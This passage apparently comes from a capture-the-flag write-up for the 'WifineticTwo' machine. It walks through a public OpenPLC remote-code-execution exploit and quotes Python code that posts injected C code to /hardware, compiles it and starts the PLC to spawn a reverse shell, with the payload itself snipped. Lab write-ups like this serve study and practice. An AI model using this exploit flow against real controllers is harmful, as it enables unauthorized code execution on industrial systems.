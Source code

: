 As now I have access, I will try to exploit the RCE vulnerability.

The python script of packetstorm submits the C code to /hardware and then does a GET request to /start_plc after logging in:

```python

compile_program = options.url + '/compile-program?file=681871.st' 
run_plc_server = options.url + '/start_plc'

<..SNIP..>

def connection():
    print('[+] Attempt to Code injection...')
    inject_url = host + "/hardware"
    inject_dash = host + "/dashboard"
    inject_cookies = {<..SNIPPED HEADERS..>}
    inject_data = "<..SNIPPED C CODE..>"
    inject = x.post(inject_url, headers=inject_headers, cookies=inject_cookies, data=inject_data)
    time.sleep(3)
    comp = x.get(compile_program)
    time.sleep(6)
    x.get(inject_dash)
    time.sleep(3)
    print('[+] Spawning Reverse Shell...')
    start = x.get(run_plc_server)
    time.sleep(1)
```

I don't know why it also does a GET request to /compile-program?file=681871.st after uploading it but it's not necessary because there is already a program called "blank_program" in Programs:

![blank program in programs](/assets/images/WifineticTwo/blank-program-in-programs.png)
